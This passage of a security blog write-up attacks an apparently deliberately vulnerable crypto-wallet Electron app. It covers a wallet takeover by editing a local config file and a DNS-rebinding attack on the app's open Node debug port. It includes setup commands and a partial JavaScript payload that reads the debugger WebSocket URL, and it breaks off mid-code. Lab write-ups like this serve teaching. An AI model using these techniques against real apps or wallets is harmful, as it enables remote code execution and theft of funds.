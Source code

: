 {:refdef: style="text-align: center;"}
![](/blog/images/clientrce.png)
{: refdef}


## Wallet takeover

After digging for a while the application and its code, it is now a security that there are no session mechanisms implementated within the communication of the client and the server. Also, the application uses local files to grab sensitive information, such as the public wallet id, but the "Password" required is not being sent to the server whatsoever so it was clear that we could log on to any wallet. For this, we would need another public walletId, which we can grab from the stdout of the 'docker-compose up' command (the first one is the one that the application uses by default):

![](/blog/images/wallettakeover.png)

So, we are going to grab the third one, and use this value in the configuration file located at "/.config/dvcw-electron-app/localdata.json" as the "publicAddress" value, and once we fire up the application, we will be received with the wallet for that public address.

![](/blog/images/wallettakeover2.png)

## Debug Port

As we can see in the configuration file set up in .config/dvcw-electron-app/config.json there is a value called "debugPort" which value is 9334. If we run a "netstat -an" command we can observe that the application opens up this debug port by default. This could be exploited if the node version in which the application is running, is vulnerable to DNS Rebinding attacks.

After googling for a while, I found two DNS rebinding writeups that really helped me understand how an attack can be crafted under these circunstances, kudos to [@root_31068](https://medium.com/@root_31068/the-call-is-coming-from-inside-the-house-dns-rebinding-in-eosio-keosd-wallet-e11deae05974) and [@0xcc](https://medium.com/0xcc/visual-studio-code-silently-fixed-a-remote-code-execution-vulnerability-8189e85b486b) on that. If you haven´t opened these links yet, go ahead and read them.

So, to exploit this vulnerability we are going to need two things:

* A server with an html that triggers some JS code.
* A DNS server which will iterate from the IP of where we are hosting the web server above and localhost.

For the second one, we will be using the [whonow](https://github.com/brannondorsey/whonow) tool and its network.rebind domain, while for the first one we are going to use a python server with a simple HTML file in a VPS:

`python -m SimpleHTTPServer 9334`

After configuring the firewall rules to expose to the internet the Python Web server through port 9334 (Note that we need to use the same port number as the application), we create the 'dnsrebinding.html' file :

```
<html>
<body>
<script>
setTimeout(function() {
  let list;
  fetch("/json", { method: "GET" })
    .then(function(r) {
      return r.json();
    })
    .then(function(json) {
      list = json;
      const item = list.find(item => item.url.indexOf('file:///') === 0);
          if (!item) return log('error');
          console.log(item.webSocketDebuggerUrl);
```